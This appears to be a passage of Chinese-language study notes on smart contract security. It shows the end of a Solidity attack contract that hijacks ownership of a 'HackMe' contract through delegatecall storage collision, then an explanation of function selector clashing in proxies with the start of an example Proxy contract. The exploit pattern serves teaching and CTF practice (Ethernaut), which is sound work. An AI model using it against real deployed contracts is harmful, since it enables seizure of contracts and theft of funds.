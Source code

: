 ```solidity
    // Make sure the storage layout is the same as HackMe
    // This will allow us to correctly update the state variables
    address public lib;
    address public owner;
    uint256 public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // override address of lib
        hackMe.doSomething(uint256(uint160(address(this))));
        // pass any number as input, the function doSomething() below will
        // be called
        hackMe.doSomething(1);
    }

    // function signature must match HackMe.doSomething()
    function doSomething(uint256 _num) public {
        owner = msg.sender;
    }
}

```
1. Ethernaut Level 6/16/24

## 3.Function Clashing Vulnerability

函数冲突指的是，因为编译后的智能合约采用的是前四个字节作为标识符来识别函数(也就是函数选择器)。当不同名称的函数的哈希前32位相同是，他们有可能回包含相同的selector。编译器会检测到同一个 4 字节函数选择器在单个合约中存在两次，但它不会阻止相同的 4 字节函数选择器存在于项目的不同合约中。

大多数但并非所有代理类型都存在函数冲突。具体来说，UUPS 代理通常不易受到功能冲突的影响，因为实施合约存储了所有自定义功能。

可以使用[这个工具](https://openchain.xyz/signatures)来寻找有相同selector的函数.

### Example
> From Tincho Blog
```solidity
pragma solidity ^0.5.0;

contract Proxy {
    
    address public proxyOwner;
    address public implementation;

    constructor(address implementation) public {
        proxyOwner = msg.sender;
        _setImplementation(implementation);
    }

    modifier onlyProxyOwner() {
        require(msg.sender == proxyOwner);
        _;
    }

    function upgrade(address implementation) external onlyProxyOwner {
        _setImplementation(implementation);
    }

    function _setImplementation(address imp) private {
        implementation = imp;
```